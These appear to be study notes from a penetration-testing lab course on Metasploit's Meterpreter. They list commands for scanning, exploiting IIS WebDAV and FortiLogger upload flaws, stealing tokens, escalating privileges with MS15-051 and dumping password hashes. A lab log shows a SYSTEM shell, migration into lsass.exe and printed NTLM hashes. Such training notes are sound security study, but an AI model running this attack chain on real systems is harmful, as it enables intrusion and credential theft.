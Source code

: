 # Meterpreter

The Meterpreter Payload uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks.

Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive.

MSF - Scanning Target
db_nmap -sV -p- -T5 -A 10.10.10.15
hosts
services

search iis_webdav_upload_asp
set RHOST
set LHOST
run

## Steal Token

getuid
ps

 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe

steal_token 1836
getuid
Server username: NT AUTHORITY\NETWORK SERVICE

## Sessions

bg

OR

background

search local_exploit_suggester

use post/multi/recon/local_exploit_suggester 

set SESSION 1

run

## Privilege Escalation

use exploit/windows/local/ms15_051_client_copy_images

show options

set session 1

set LHOST tun0

run

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


### Hashes Dump

hashdump
lsa_dump_sam
lsa_dump_secrets

## LAB

nmap -sV 10.129.11.98

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5000/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

use auxiliary/scanner/upnp/ssdp_msearch
set RHOSTS 10.129.11.98
RHOSTS => 10.129.11.98
run
Sending UPnP SSDP probes to 10.129.11.98->10.129.11.98 (1 hosts)
[*] No SSDP endpoints found.

--> Failed

use exploit/windows/http/fortilogger_arbitrary_fileupload
set RHOSTS 10.129.11.98
set LHOST tun0

run

(Meterpreter 1)(C:\Windows\system32) > whoami
[-] Unknown command: whoami
(Meterpreter 1)(C:\Windows\system32) > shell
Process 7032 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


(Meterpreter 1)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM

ps
 632   472   lsass.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\lsass.exe
 migrate 632
[*] Migrating from 6288 to 632...
[*] Migration completed successfully.
(Meterpreter 1)(C:\Windows\system32) > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
